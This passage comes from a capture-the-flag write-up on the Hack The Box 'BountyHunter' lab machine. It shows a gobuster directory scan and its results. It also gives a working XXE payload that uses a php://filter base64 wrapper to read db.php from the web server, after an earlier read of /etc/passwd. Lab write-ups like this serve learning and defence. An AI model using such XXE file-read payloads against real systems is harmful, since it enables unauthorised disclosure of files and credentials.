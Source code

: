 We can see in the returned response the contents of /etc/passwd, great. We see a user account named development. We also had a gobuster directory scan running in the background:
```text
[bountyhunter] λ gobuster dir -w ~/code/github.com/SecLists/Discovery/Web-Content/raft-medium-directories.txt -x php -u http://bountyhunter.htb

/css                  (Status: 301) [Size: 318] [--> http://bountyhunter.htb/css/]
/assets               (Status: 301) [Size: 321] [--> http://bountyhunter.htb/assets/]
/js                   (Status: 301) [Size: 317] [--> http://bountyhunter.htb/js/]
/db.php               (Status: 200) [Size: 0]
/resources            (Status: 301) [Size: 324] [--> http://bountyhunter.htb/resources/]
/index.php            (Status: 200) [Size: 25169]
/portal.php           (Status: 200) [Size: 125]
```

It found a "db.php" file. We can try to use the injection vector to perform LFI on that file. Here's how our new payload looks like:
```text
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE data [
<!ENTITY payload SYSTEM "php://filter/read=convert.base64-
encode/resource=/var/www/html/db.php"> ]>
<bugreport>
<title>title</title>
 <cwe>cwe</cwe>
 <cvss>cvss</cvss>
 <reward>&payload;</reward>
</bugreport>
```

Similar to before, but we need to use the php filter, otherwise it will try to render the php file instead of showing us the contents. We base64 encode it, then URL encode it and send it off with burp:
![xxe-inject-success.png](/assets/images/posts/htb-bountyhunter/xxe-inject-db-php.png)


[1]: https://app.hackthebox.com/users/280547
[2]: https://www.hackthebox.eu